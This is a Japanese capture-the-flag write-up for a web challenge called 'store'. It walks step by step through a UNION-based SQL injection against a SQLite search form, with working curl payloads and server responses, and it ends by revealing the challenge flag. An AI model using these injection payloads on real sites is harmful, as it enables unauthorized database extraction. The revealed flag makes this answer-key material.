

# store:web:100pts
[https://store.web.actf.co/](https://store.web.actf.co/)  

# Solution
URLだけが渡される。  
アクセスすると、在庫検索ページのようだ。  
  
`'`を入力するとフロントで`Invalid characters in search query.`と怒られる。  
ひとまずcurlで`'`をPOSTする。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item='"
~~~
        <p>An error occurred.</p>
~~~
```
エラーが発生するようで、SQLiが怪しい。  
条件が常に真となる`' OR 's' = 's' -- satoki`を試す。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR 's' = 's' -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>Otamatone</td>
                        <td>A extremely serious synthesizer. Comes in a variety of colors.</td>
                    </tr>

                    <tr>
                        <td>Echo dot</td>
                        <td>A smart speaker that can play music, make calls, and answer questions.</td>
                    </tr>

                    <tr>
                        <td>Razer Cynosa Chroma</td>
                        <td>A gaming keyboard with customizable RGB lighting.</td>
                    </tr>

            </table>
~~~
```
すべてのitemが表示された。  
SQLiが可能であることが判明したため、UNIONで連結すればよい。  
まずは[DBMS Identificationペイロード](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)を用いて、DBMSを特定する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR crc32('MySQL')=crc32('MySQL') -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR sqlite_version()=sqlite_version() -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>Otamatone</td>
                        <td>A extremely serious synthesizer. Comes in a variety of colors.</td>
                    </tr>

                    <tr>
                        <td>Echo dot</td>
                        <td>A smart speaker that can play music, make calls, and answer questions.</td>
                    </tr>

                    <tr>
                        <td>Razer Cynosa Chroma</td>
                        <td>A gaming keyboard with customizable RGB lighting.</td>
                    </tr>

            </table>
~~~
```
SQLiteであるとわかるので、次にカラム数を特定する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version() -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version() -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), sqlite_version() -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>3.45.3</td>
                    </tr>

            </table>
~~~
```
3つのようだ。  
次に`sqlite_schema`からデータを取得する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), sql FROM sqlite_schema -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE flagsbf48d3daadee5dbab457c0dc5ecb86c1 ( flag TEXT)</td>
                    </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE items (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        name TEXT,
        detail TEXT
    )</td>
                    </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE sqlite_sequence(name,seq)</td>
                    </tr>

            </table>
~~~
```
`flagsbf48d3daadee5dbab457c0dc5ecb86c1`なるテーブルがあるようだ。  
内部の`flag`を抜き出してやる。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), flag FROM flagsbf48d3daadee5dbab457c0dc5ecb86c1 -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>actf{37619bbd0b81c257b70013fa1572f4ed}</td>
                    </tr>

            </table>
~~~
```
flagが得られた。  

## actf{37619bbd0b81c257b70013fa1572f4ed}